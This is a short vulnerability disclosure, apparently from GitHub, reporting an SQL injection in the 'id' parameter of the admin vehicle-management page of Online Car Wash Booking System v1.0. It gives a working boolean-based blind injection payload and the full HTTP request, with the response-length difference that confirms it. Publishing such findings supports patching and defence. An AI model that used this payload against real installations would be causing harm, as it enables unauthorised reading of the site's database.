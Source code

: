# Online Car Wash Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15274/online-car-wash-booking-system-phpoop-free-source-code.html

Vulnerability File: /ocwbs/admin/vehicles/manage_vehicle.php?id=

Vulnerability location: /ocwbs/admin/vehicles/manage_vehicle.php?id=, id

Current database name: ocwbs_db,length is 8

[+] Payload: /ocwbs/admin/vehicles/manage_vehicle.php?id=5%27%20and%20length(database())%20=8--+ // Leak place ---> id

```sql
GET /ocwbs/admin/vehicles/manage_vehicle.php?id=5%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qr1o26kvu55cqqitadqht6jna5
Connection: close
```

When length (database ()) = 7, Content-Length: 1978
![image](https://user-images.githubusercontent.com/54017627/169302391-3f42e531-d93c-4591-9e2e-e6a626325a07.png)

![image](https://user-images.githubusercontent.com/54017627/169302120-abea648f-25f9-46d4-af00-3ed9b78fa270.png)

When length (database ()) = 8, Content-Length: 1997
![image](https://user-images.githubusercontent.com/54017627/169302437-2957a931-9408-4616-8a43-7915be3148b7.png)

![image](https://user-images.githubusercontent.com/54017627/169302063-a05d56ce-daa9-4a25-af02-5d16a9c1f69c.png)
